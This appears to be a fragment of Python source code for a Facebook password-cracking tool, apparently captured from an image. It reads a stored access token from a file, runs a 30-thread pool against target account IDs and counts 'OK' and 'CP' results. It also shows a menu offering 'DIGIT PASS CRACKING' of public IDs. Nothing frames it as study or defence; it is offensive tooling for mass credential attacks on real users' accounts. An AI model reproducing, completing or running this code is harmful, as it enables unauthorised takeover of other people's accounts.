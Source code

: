 												

										

										

		except:

			pass

	p = ThreadPool(30)

	p.map(main, id)

	print("")

	linex()

	print("")

	print("\033[92;1m THE PROCESS HAS BEEN COMPLETED")

	print("\033[93;1m TOTAL \033[92;1mOK\033[93;1m/\033[91;1mCP: "+str(len(oks))+"/"+str(len(cps)))

	print("")

	linex()

	print("")

	raw_input("\033[93;1m PRESS ENTER TO BACK ")

	menu()

	

def crack():

	global token

	os.system("clear")

	try:

		token = open("vau_token.txt","r").read()

	except IOError:

		print("")

		print("\t\033[91;1m  TOKEN NOT FOUND ")

		time.sleep(1)

		fb_token()

	os.system("clear")

	logo()

	print("")

	print("\t\033[93;1m  DIGIT PASS CRACKING")

	print("")

	print("\033[94;1m  [1] CRACK PUBLIC ID")
